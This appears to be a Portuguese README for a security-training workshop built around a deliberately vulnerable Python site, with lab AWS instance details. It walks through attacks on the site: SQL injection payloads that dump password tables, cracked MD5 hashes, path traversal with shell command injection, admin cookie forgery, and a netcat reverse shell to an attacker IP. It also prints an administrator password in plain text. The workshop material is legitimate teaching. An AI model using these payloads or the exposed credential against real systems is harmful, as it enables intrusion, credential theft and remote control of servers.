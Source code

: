 # Infraestrutura

### Windows

Region: us-east-1

Instance id: This is the Windows client with tools for the Python_SafeSite Security Workshop

AMI name: SecLabClient

Description: This is the Windows client with tools for the Python_SafeSite Security Workshop

Administrator Password: mBp4t;Jvg6!dskzt3DCHa@w7H?l5.?VE

AMI id: ami-01127273b979fe92b

### Linux

Region: us-east-1

Instance id: i-0458f66b29d690451

AMI name: SecLabServer

Description: This is the Linux server with the vulnerable site for the Python_SafeSite Security Workshop

AMI id: ami-01127273b979fe92b

# Falhas e Ataques

#### Página Inicial: SQL Injection

Ao colocar uma aspa dupla (") no campo de busca, o site quebra. Isso mostra que o site é vulnerável a ataques SQL Injection. Um agravante é que o desenvolvedor deixou a página de Debug habilitada, mostrando detalhes do erro e inclusive a engine (SQLite3). Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

- Original: 
  
  - SELECT * FROM posts WHERE Content LIKE "%"%";

- Alteradas:
  
  - SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%"; 
    
    - X" union select 1, 2 --
    - X" union select name, sql from sqlite_master where type='table' --
    - X" union select name || ': ' || card, password from secrets --
    - X" union select login || ': ' || email, password from logins --

Obtivemos os hashes dos logins, que podem ser facilmente quebrados no [https://crackstation.net/](https://crackstation.net/):

084e0343a0486ff05530df6c705c8bb4: guest@guest
084e0343a0486ff05530df6c705c8bb4

21232f297a57a5a743894a0e4a801fc3: admin@admin
0192023a7bbd73250516f069df18b500

263bce650e68ab4e23f28263760b9fa5: maria@gmail.com
3a1f9e20f1beac9b81a1e18e08b7f442

dc599a9972fde3045dab59dbd1ae170b: carlos@hotmail.com
a07bda8fd5e39462b4c3d860a36f6b4d

| Hash                             | Tipo | Senha       |
| -------------------------------- | ---- | ----------- |
| 084e0343a0486ff05530df6c705c8bb4 | md5  | guest       |
| 0192023a7bbd73250516f069df18b500 | md5  | admin123    |
| 3a1f9e20f1beac9b81a1e18e08b7f442 | md5  | unicornio   |
| a07bda8fd5e39462b4c3d860a36f6b4d | md5  | corinthians |

#### Sobre Nós: Path Traversal, Remote Command Execution

A página Sobre Nós claramente exibe o conteúdo de arquivos texto que estão no servidor. Ao clicar em um deles, a URL fica da seguinte forma:

[http://localhost:8000/about?doc=termo_de_uso](http://localhost:8000/about?doc=termo_de_uso)

Vamos explorar esse parâmetro:

- ?doc=x: Tela em branco
- ?doc=/etc/passwd: Tela em branco

Provavelmente não vemos nada porque esse campo recebe o nome do arquivo e faz prepend de um caminho e append de uma extensão. Logo, termo_de_uso deve virar algo como /pasta/termo_de_uso.txt. Se isso for verdade, podemos testar com diretórios relativos + null bytes e também com múltiplos nomes de arquivos.

- [http://localhost:8000/about?doc=../../../../../etc/passwd%00](http://localhost:8000/about?doc=../../../../../etc/passwd%00)  Quebra por causa do null byte.
- [http://localhost:8000/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://localhost:8000/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) mostra o conteúdo de todos os arquivos, menos o primeiro e o último.
- Será que neste contexto ele repassa o path para o shell? Se sim, podemos tentar executar comandos... [http://localhost:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://localhost:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Game over!

#### Contato: CSRF + XSS (Firefox)

Estes ataques XSS não funcionam no Chrome.

No primeiro formulário é possível executar um XSS, mas ele não é persistido.

No segundo, entretanto, ele é persistido, mas não é executado.

Para fazer o ataque, a vítima tem que clicar em um link feito para roubar a sessão ou capturar o browser, com um software como o Beef, por exemplo.

#### Cadastro: XSS, File Upload

Ao criar um usuário, é possível fazer o upload de um arquivo qualquer que não seja uma foto para o servidor. No caso de um site PHP, por exemplo, este arquivo pode ser uma shell que permita acesso remoto ao servidor.

#### Área Restrita: HTTP Brute Force

Com o THC-Hydra, Burp Suite ou OWASP ZAP é possível facilmente quebrar as senhas, já que não há um limitador de tempo.

#### Perfil: HTTP Brute Force

O mesmo que o item anterior.

#### Global: Cookie Tampering (or Poisoning)

Ao criar um usuário de testes chamado cleber com senha 12345, os seguintes cookies foram setados após o login:

- pyverysafeid: 5c675a11f4a8474c3d75ff158570850a (este é cleber em MD5)

- pyverysafelogin: ee11cbb19052e40b07aac0ca060c23ee (este é a palavra user)

Se o hash é a palavra user, o que acontece se eu mudar para admin em MD5?

21232f297a57a5a743894a0e4a801fc3 -> admin

Ao trocar o cookie e dar refresh, os privilégios da sessão são elevados instantaneamente!

#### Global: Directory Search

Como não há nenhum recurso que impeça múltiplos requests sequenciais, ferramentas como o DIRB, o Nikto e o ZAP podem fazer ataques fuzzy ou via listas para encontrar diretórios ocultos.

#### Status: Form Tampering (or Poisoning)

O diretório /status que só permite a execução de determinados comandos e apenas para o usuário admin, pode ser burlado via troca de parâmetros no request para que comandos sejam enviados diretamente ao servidor.

Exemplo: 

curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' 'http://localhost:8000/status' -X POST --data 'cmd=ls -l /'

Um shell remoto pode ser lançado aqui:

- Atacante: nc -lvp 3000
- Vítima: nc 192.168.15.25 3000 -e /bin/bash
